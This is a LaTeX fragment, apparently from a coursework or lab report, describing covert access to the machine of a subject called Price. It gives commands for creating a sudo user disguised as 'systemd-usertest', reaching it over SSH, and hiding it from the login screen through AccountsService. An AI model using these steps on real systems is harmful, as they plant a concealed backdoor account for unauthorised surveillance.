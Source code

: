 \documentclass[12pt]{report}
\newcommand{\term}[1]{\colorbox{light-gray}{\texttt{#1}}}
\begin{document}
I used the username \textit{'systemd-usertest'} in an effort to disguise my presence from Price. As systemd provides a myriad of services, Price would hopefully attribute this new user to a \texttt{systemd} update.

After creating the \textit{'systemd-usertest'} user, I made it a member of the \texttt{sudo} group with the command:\\
\term{sudo usermod -aG sudo systemd-usertest}

With this new account, I was able and will continue to be able to access Price's machine on demand for the course of the investigation.

The screenshot in Appendix~\ref{app:screenshots:4} shows me accessing this new account over SSH from my attack machine.

In order to hide the investigation from Price, I needed to prevent this new user from appearing on the login screen. To do this, I used the following steps over the SSH connection to his machine:
\begin{enumerate}
  \item Change directory to the AccountsServices directory with:\\
        \term{cd /var/lib/AccountService}
  \item Copy Prices's AccountsService file to a new \textit{'systemd-usertest'} AccountService file with:\\
        \term{sudo cp users/phillip users/systemd-usertest}
  \item Open the file for editing with nano using:\\
        \term{sudo nano users/systemd-usertest}
  \item Make \textit{'systemd-usertest'} a SystemAccount by modifying the file to read:
        \begin{Verbatim}[frame=leftline]
[User]
Language=en_GB
FormatsLocale=en_GB.UTF-8
XSession=
SystemAccount=true

[InputSource0]
xkb=gb
        \end{Verbatim}
\end{enumerate}


\section{Setting up a \texttt{squid} proxy to monitor traffic}
\end{document}
